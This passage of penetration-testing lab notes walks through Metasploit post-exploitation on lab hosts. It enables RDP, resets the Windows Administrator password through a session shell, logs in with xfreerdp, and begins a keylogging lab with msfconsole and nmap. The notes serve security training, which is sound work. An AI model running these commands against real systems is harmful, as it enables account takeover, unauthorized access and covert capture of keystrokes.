 ![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419225404062.png)

```bash
# Verify port 3389 is open
db_nmap -p 3389 10.2.21.205
```

```bash
3389/tcp open  ms-wbt-server
```

- To access RDP, login credentials are necessary

```bash
sessions
sessions 1
shell
net users
	Administrator Guest
```

- Change the `Administrator` user's password (no recommended in a real-world system)


> 📌 *During a standard Pentest, create another user account, add it to the Administrators group and utilize that one.*

```bash
net user administrator p4ssword_12344321
exit
```

Legitimate credentials are now: `administrator`:`p4ssword_12344321`

- In a new Terminal TAB

```bash
xfreerdp /u:administrator /p:p4ssword_12344321 /v:10.2.21.205
```

![xfreerdp](.gitbook/assets/image-20230419230109945.png)



<details><summary>Reveal Flag: 🚩</summary></details>

------

## Lab 8 - Keylogging

> 🔬 [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.24.165`
> - Metasploit **keystroke sniffer**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.165
setg RHOST 10.2.24.165
workspace -a Keylogging
db_nmap -sV 10.2.24.165
```
